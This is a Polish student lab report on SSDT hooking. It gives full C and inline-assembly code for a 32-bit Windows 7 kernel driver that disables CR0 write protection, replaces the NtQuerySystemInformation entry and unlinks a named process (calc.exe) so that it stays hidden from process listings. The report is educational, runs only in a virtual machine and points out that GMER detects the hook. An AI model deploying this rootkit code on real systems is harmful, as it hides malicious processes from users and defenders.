




# Sprawozdanie  - SSDT Hook (ukrywanie procesu)

## 1. Wprowadzenie
W ramach projektu z przedmiotu Oprogramowanie Systemowe stworzono sterownik WDM (Windows Driver Model), który ma na celu "hooking" (podpięcie się) pod usługę systemową *NtQuerySystemInformation* w celu ukrycia zdefiniowanego procesu o wcześniej podanej nazwie.

## 2. Podstawy teoretyczne
  
*Uproszczony schemat wywoływania funkcji systemowej z tablicy SSDT*

W celu wyjaśnienia procesu *SSDT Hooking'u* warto omówić najpierw proces wywoływania funkcji systemowej w Windows. Mechanika ta jest stosunkowo prosta. 

Do wywołania odpowiedniej funkcji muszą być znane 2 parametry: indeks wywoływanej funkcji oraz numer tablicy SSDT. System dostarcza miejsca na 4, jednak używane są tylko dwie, a najbardziej interesująca w tym kontekście jest *KeServiceDescriptorTable*.   

W momencie, w którym wykonywane jest żądanie dostępu do pewnej funkcji, w rejestrze EAX na najstarszych 12 najmłodszych bitach umieszczany jest jej numer, a na środkowych dwóch znajduje się indeks tablicy SSDT, z której zostanie odczytana. Następnie wykonywane jest przerwanie `int 0x2E` lub (w nowszych systemach) polecenie `sysenter`.

W celu otrzymania adresu pożądanej przez nas funkcji należy:  
 - Odczytać adres tablicy SSDT - tutaj KeServiceDescriptorTable, zatem jej numer to 0x0
 - Z uzyskanej struktury odczytać adres bazowy tablicy procedur systemowych
 - Finalnie, znając indeks wywoływanej funkcji, można odczytać jej adres używając formuły:
 ```adres_adresu_funkcji = adres_bazowy + numer_funkcji * 4 B```
 
Hooking tablicy SSDT polega na podmianie adresu oryginalnej funkcji systemowej na inną, zmodyfikowaną przez napastnika. Często do takiej funkcji (zwanej hook'iem) dodane są pewne dodatkowe działania, a na jej końcu zostaje wywołana oryginalna procedura i zwrócony będzie poprawny wynik, by nie spowodować awarii systemu.

W celu modyfikacji tablicy SSDT wymagany jest dostęp do modyfikacji stron systemowych (zabezpieczonych przed zapisem). Nie jest to możliwe domyślnie, jednak w stosunkowo nieskomplikowany sposób z trybu jądra można taki dostęp uzyskać.  
Wykonywane jest to poprzez rejestr sterujący **CR0**. Przy próbie dostępu do lokacji pamięci, system na początku sprawdza flagę **WP** (Write-Protection) obecną na jego 16. bicie. Jeżeli będzie ona ustawiona na wartość 0, system nie będzie respektował ograniczeń w formie bitów U/S i R/W w PDE/PTE - zatem uzyskamy niemalże nieograniczony dostęp do danych systemowych rezydujących w pamięci.

Funkcją, którą wybrano do podmiany jest ZwQuerySystemInformation. Dostarcza ona wybrane informacje na temat systemu. Jednym z ich typów jest spis aktywnych procesów. Wykorzystuje ją m.in. menadżer zadań. W tym przypadku funkcja zwraca strukturę typu linked list, gdzie każdy element stanowi pojedynczy proces i zawiera informacje na swój temat oraz wskaźnik na następną pozycję. Atakiem będzie tutaj "wypięcie" z listy procesu o wcześniej zdefiniowanej nazwie i zwrócenie zmodyfikowanej zawartości.

## 3. Założenia i ograniczenia
W 64-bitowych wersjach systemów Windows ntoskrnl.exe nie udostępnia (eksportuje) 64-bitowej tablicy SSDT (KeServiceDescriptorTable), co sprawia, że dostęp do niej jest znacznie utrudniony. Ponadto wprowadzono mechanizm PatchGuard, który dodatkowo chroni system przed możliwością nadpisywania stron systemowych przez ustawienie bitu WP. Z tych powodów zdecydowano się na wykonanie projektu zgodnego z 32-bitową wersją systemu Windows 7.
## 4. Opis działań
Pierwszą rzeczą, którą należy wykonać jest dołączenie do funkcji sterownika nagłówka z przydatnymi funkcjami systemu Windows.
```c
#include <wddk.h>
```

Następnie należy napisać główną funkcję sterownika WDM ```DriverEntry```. Jest to odpowiednik funkcji main w języku C/C++. Makro ```UNREFERENCED_PARAMETER()``` sprawia, iż kompilator nie zwróci błędu braku wykorzystania argumentu funkcji.
```c
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
	UNREFERENCED_PARAMETER(RegistryPath);
    ...
}
```
Kolejnym etapem jest zdefiniowanie i przypisanie do obiektu sterownika funkcji wywoływanej w momencie zakończenia działania sterownika. Jest to istotny element, gdyż bez niego nie mamy możliwości przywrócenia oryginalnej funkcji. Jej pełne ciało zdefiniujemy pod koniec tej sekcji sprawozdania.
```c
void Unload(PDRIVER_OBJECT DriverObject)
{ 
    UNREFERENCED_PARAMETER(DriverObject);
    ...
}
```
Funkcja DriverEntry:
```c
DriverObject->DriverUnload = Unload;
```

Kolejnym etapem będzie "zaimportowanie" tablicy SSDT - KeServiceDescriptorTable oraz definicji jej struktury.
```c
// Deklaracja struktury reprezentującej System Service Table.
typedef struct SystemServiceTable
{
	PULONG ServiceTableBase; // Adres bazowy tablicy wskaźników na funkcje
	PULONG ServiceCounterTableBase; // Nieużywane
	ULONG NumberOfServices; // Liczba wpisów tablicy
	PUCHAR ParamTableBase; // Tablica, każdy bajt odpowiada liczbie bajtów zaalokowanych 
                           //na argumenty funkcji (dla każdej funkcji z tablicy jest jeden wpis)
}SST, * PSST;

// Sposób na poinformowanie kompilatora o tym, że funkcja jest eksportowana przez 
// zewnętrzny proces - w tym wypadku przez ntoskrnl.exe
extern PSST KeServiceDescriptorTable;
```
Poniżej zaprezentowano funkcje służące do deaktywacji lub aktywacji bitu WP w rejestrze CR0. Bezpośredni dostęp do rejestrów jest możliwy jedynie z poziomu assembler'a. Warto zwrócić uwagę na fakt, iż zapis kodu assembler'owego *inline* nie jest wspierany w 64-bitowym kompilatorze MSVC.
```c
void EnableWP()
{
	__asm
	{
		mov eax, cr0
		or eax, 0x10000
		mov cr0, eax
	}
}

void DisableWP()
{
	__asm
	{
		mov eax, cr0
		and eax, not 0x10000
		mov cr0, eax
	}
}
```
Następnym krokiem będzie zadeklarowanie funkcji, którą chcemy hook'ować oraz ustawienie odpowiednich zmiennych globalnych. 

```c
// Nazwa ukrywanego procesu
const wchar_t* processToHide = L"calc.exe";

// Define the original prototype of the hooked function
NTSYSAPI NTSTATUS NTAPI ZwQuerySystemInformation(ULONG, PVOID, ULONG, PULONG);

typedef NTSTATUS(*pNtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG);

// Original address of address of function in SSDT
ULONG SSDTAddress;

// Original function handle
pNtQuerySystemInformation NtQuerySystemInformationOrigHandle = NULL;
```

Ostatnim etapem przygotowań jest definicja makra określającego numer pożądanej funkcji w tablicy SSDT. Wykorzystuje ono trik z książki "The Rootkit Arsenal". Wszystkie funkcje systemowe Zw...() zaczynają się od kodu ```mov eax, xxxh```, gdzie "xxx" jest numerem funkcji w tablicy SSDT. Rozkaz ```mov``` składa się w tej sytuacji z pierwszego bajtu opkodu oraz 32-bitowej liczby przenoszonej do rejestru EAX. Zatem odnosząc się do 2, 3, 4 i 5 bajtu tej instrukcji, można uzyskać 4-bajtową liczbę stanowiącą indeks naszej funkcji.

```c
#define GetServiceNumber(Function)(*(PULONG)((PUCHAR)Function + 1));
```
Poniższy kod zawiera resztę funkcji DriverEntry. W komentarzach zawarto szczegółowe opisy procesu.
```c
// Zdobądź indeks funkcji w tablicy SSDT
const ULONG RoutineIndex = GetServiceNumber(ZwQuerySystemInformation);
// Wyłącz zabezpieczenia WP w CR0
DisableWP();

// Oblicz adres adresu procedury w tablicy SSDT
// addr = KeServiceTableAddress + routine_index * 4 (bajty, długość adresu)
SSDTAddress = (ULONG)KeServiceDescriptorTable->ServiceTableBase + RoutineIndex * 4;
// Wyłuskaj bezwzględny adres podmienianej funkcji
const ULONG OrigNtQuerySystemInformation = *(PULONG)SSDTAddress;

// Zapisz adres oryginalnej funkcji w zmiennej
NtQuerySystemInformationOrigHandle = (pNtQuerySystemInformation)OrigNtQuerySystemInformation;
// Podmień adres oryginalnej funkcji w tablicy na adres funkcji hook'a
// Funkcja InterlockedExchangePointer podmienia wskaźnik pod zadanym adresem
InterlockedExchangePointer((PVOID)SSDTAddress, (PVOID)HookNtQuerySystemInformation);

// Ponownie włącz zabezpieczenia WP
EnableWP();

DbgPrint("End of DriverEntry!\n");

return STATUS_SUCCESS;
```
Ostatnim, najważniejszym krokiem jest stworzenie procedury "hookującej". W tym celu zaimplementowano proste "wypięcie" procesu o danej nazwie z listy.

```c

// Deklaracja struktury elementu listy procesów
typedef struct _SYSTEM_PROCESS_INFORMATION {
	ULONG                   NextEntryOffset;
	ULONG                   NumberOfThreads;
	LARGE_INTEGER           Reserved[3];
	LARGE_INTEGER           CreateTime;
	LARGE_INTEGER           UserTime;
	LARGE_INTEGER           KernelTime;
	UNICODE_STRING          ImageName;
	KPRIORITY               BasePriority;
	HANDLE                  ProcessId;
	HANDLE                  InheritedFromProcessId;
} SYSTEM_PROCESS_INFORMATION, * PSYSTEM_PROCESS_INFORMATION;

NTSTATUS HookNtQuerySystemInformation(ULONG SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength)
{
	if (SystemInformationClass != 0x05)
	{
		// Zażądano innych informacji, użyj oryginalnej funkcji.
		return NtQuerySystemInformationOrigHandle(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);
	}

	// Zażądano informacji o procesach, pobierz listę procesów z oryginalnej funkcji
	const NTSTATUS ret = NtQuerySystemInformationOrigHandle(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);
	if (!NT_SUCCESS(ret))
	{
		return ret;
	}
	DbgPrint("Hiding the process...\n");

	PSYSTEM_PROCESS_INFORMATION curr = NULL, next = SystemInformation;

	while (next->NextEntryOffset != 0)
	{
		// Iteruj po liście procesów w celu znalezienia 
		// procesu do ukrycia. Uwaga! Pierwszy element listy jest pusty.
		curr = next;
		next = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)curr + curr->NextEntryOffset);
        // Porównanie nazwy szukanego procesu z właściwą nazwą pobraną ze struktury elementu listy
		if (!wcscmp(processToHide, next->ImageName.Buffer))
		{
			DbgPrint("Found the calculator!\n");
			if (next->NextEntryOffset == 0)
			{
				curr->NextEntryOffset = 0;
			}
			else
			{
				curr->NextEntryOffset += next->NextEntryOffset;
			}
			next = curr;
		}
	}
	return ret;
}
```

Finalnym etapem będzie uzupełnienie funkcji przywracającej adres oryginalnej funkcji do tablicy SSDT.

```c
void Unload(PDRIVER_OBJECT DriverObject)
{
	UNREFERENCED_PARAMETER(DriverObject);

	if (NtQuerySystemInformationOrigHandle != NULL) {
		DisableWP();
		// Przywróć adres oryginalnej funkcji
		InterlockedExchangePointer((PVOID)SSDTAddress, (PVOID)NtQuerySystemInformationOrigHandle);
		EnableWP();
		DbgPrint("The original SSDT function has been restored\n");
	}

	DbgPrint("Driver unloaded\n");
}
```
## 5. Środowisko budowy i uruchomienie sterownika
Sterownik zbudowano używając środowiska Visual Studio 2019 wraz z pakietem WDK. Na wyjściu uzyskano plik ```.sys```. 
Systemem testowym był Windows 7 uruchomiony na maszynie wirtualnej. Jest to zalecane, gdyż sterowniki w kernel mode nie posiadają zabezpieczeń typowych dla zwykłych programów - błędy powodują zwykle BSOD (blue screen of death), a w najgorszym wypadku wadliwy sterownik może uszkodzić system.  

  
*Okno programu OSR Driver Loader*  

W celu uruchomienia sterownika użyto programu OSR Driver Loader, pozwalającego na szybkie załadowanie sterownika z pliku ```*.sys```.  

  
*Prezentacja działania: "niewidzialne" kalkulatory*

Warto jednak pamiętać, iż jest to stosunkowo przestarzała i niezwykle łatwo wykrywalna metoda ataku.  

  
*Program GMER natychmiast wykrywa SSDT hook*

## 6. Źródła
1. Bill Blunden - "The Rootkit Arsenal"
2. [Infosec - "Hooking the System Service Dispatch Table (SSDT)"](https://resources.infosecinstitute.com/topic/hooking-system-service-dispatch-table-ssdt/)
3. [ired.team - "System Service Descriptor Table - SSDT"](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/glimpse-into-ssdt-in-windows-x64-kernel)
4. [Adlice Software - "https://www.adlice.com/kernelmode-rootkits-part-1-ssdt-hooks/"](https://www.adlice.com/kernelmode-rootkits-part-1-ssdt-hooks/)
5. [Jose A Pascoa - "The Quest for the SSDTs"](https://www.codeproject.com/Articles/1191465/The-Quest-for-the-SSDTs)
6. [Geoff Chappell - Windows functions reference](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/sysinfo/query.htm?tx=75)
7. [Microsoft - WinAPI documentation](https://docs.microsoft.com/en-us/windows/win32/api)